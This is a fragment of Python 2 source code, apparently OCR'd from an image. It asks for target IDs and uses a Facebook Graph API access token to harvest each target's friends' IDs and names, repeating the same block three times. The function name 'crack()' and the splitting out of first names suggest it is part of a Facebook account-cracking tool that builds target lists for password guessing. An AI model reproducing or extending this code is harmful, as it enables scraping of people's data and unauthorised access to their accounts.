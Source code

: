         idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        